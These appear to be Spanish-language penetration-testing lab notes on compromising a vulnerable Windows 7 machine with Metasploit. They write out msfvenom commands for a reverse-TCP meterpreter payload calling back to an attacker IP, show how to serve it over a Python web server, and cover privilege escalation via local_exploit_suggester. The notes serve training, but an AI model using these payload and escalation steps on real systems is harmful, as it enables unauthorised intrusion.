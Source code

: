 Vamos a practicar en una maquina Windows 7 vulnerable.

- Vamos a adquirir una sesión de meterpreter en Windows.
	- meterpreter: Payload potente. Se utiliza para realizar tareas de post-explotación en una máquina comprometida.
- Vamos a generar un payloads con la herramienta ==msfvenom==.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP_ATACANTE) LPORT=4444 -f exr -o (NOMBRE_ARCHIVO_CREADO)
```

![](../Imagenes/Pasted%20image%2020250112145720.png)
- Esta la posibilidad que nos tire un error con relación a los bits, para solucionarlo tenemos que modificar el comando.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=(IP_ATACANTE) LPORT=4444 -f exr -o (NOMBRE_ARCHIVO_CREADO)
```
- Agregamos /x64/.
- Ya que lo tenemos, lo vamos a compartir por un servidor creado en Paython.
```
python3 -m http.server 80
```
![[Pasted image 20250112150214.png]]
- Ahora, en la maquina windows ponemos la IP de la maquina atacante en la URL.

![](../Imagenes/Pasted%20image%2020250112150311.png)
- Descargamos el archivo virus.
- Ahora, abrimos ==metasploit== para ponernos en escucha.
- Para abrir el ==metasploit== en la consola usamos el comando `msfconsole`.
- Ya dentro vamos a usar el siguiente comando:
```
use /multi/handler
```
- Que cumple la función de ==nc==.

![](../Imagenes/Pasted%20image%2020250112150659.png)
- Ya con este payloads vamos a configurarlo con el comando `show options` y vamos a rellenar con la información faltante.

![](../Imagenes/Pasted%20image%2020250112150841.png)
- Ahora nos falta modificar el payload como tal, usamos el comando `set PAYLOAD` y ponemos el payload que creamos en msfvenom.
![](../Imagenes/Pasted%20image%2020250112151054.png)
- Ahora hacemos ==run== en el payload y en windows ejecutamos el programa virus.

![](../Imagenes/Pasted%20image%2020250112151222.png)
- Estamos dentro.
- Estando dentro vamos a usar el comando `background`.

![](../Imagenes/Pasted%20image%2020250112151407.png)
- Este comando permite una sesión activa de meterpreter a fondo, permite que el operador regrese al prompt principal de metasploit (msf) para ejecutar otros comandos o iniciar nuevas sesiones.
- ==Metasploit== tiene un payload que automatiza la búsqueda de sploit que nos permite escalar privilegios.
```
search local_exploit_suggester
```

![](../Imagenes/Pasted%20image%2020250112151806.png)
- Lo vamos a seleccionar.
- Lo vamos a configurar.

![](../Imagenes/Pasted%20image%2020250112151850.png)
- Solo nos va a pedir la session activa de windows.
```
sessions -l
```

![](../Imagenes/Pasted%20image%2020250112152004.png)
- Y la seleccionamos.
```
set SESSION (NUMERO_SESSION)
```

![](../Imagenes/Pasted%20image%2020250112152050.png)
- Verificamos.

![](../Imagenes/Pasted%20image%2020250112152118.png)
- Ya esta seleccionado.
- Ejecutamos el comando run.

![](../Imagenes/Pasted%20image%2020250112152149.png)

![](../Imagenes/Pasted%20image%2020250112152247.png)
- Los exploit verdes son los que nos interesan.
- Vamos a explotar el que esta marcado.
- Copiamos el exploit y usamos el comando `use` + el nombre del exploit.
![](../Imagenes/Pasted%20image%2020250112152401.png)
- Lo configuramos.
![](../Imagenes/Pasted%20image%2020250112152437.png)
- Como podemos ver, nos piden 2 cosas:
	- 1.- La session (que ya sabemos que hay 1 en este windows)
	- 2.- LHOST que es la IP atacante.

![](../Imagenes/Pasted%20image%2020250112152623.png)
- Ya configurado, ejecutamos comando ==run==.
- ==SI YA ESTAMOS OCUPANDO EL PUERTO 4444 ANTERIORMENTE ES RECOMENDABLE CAMBIARLO POR CUALQUIER OTRO==.
![](../Imagenes/Pasted%20image%2020250112152831.png)
- Nuevamente tenemos una sesión meterpreter, ahora vamos a ejecutar el comando `shell` para posterior ejecutar el comando `whoami` y ver si somos usuarios principal.
![](../Imagenes/Pasted%20image%2020250112152944.png)
- Lo somos.
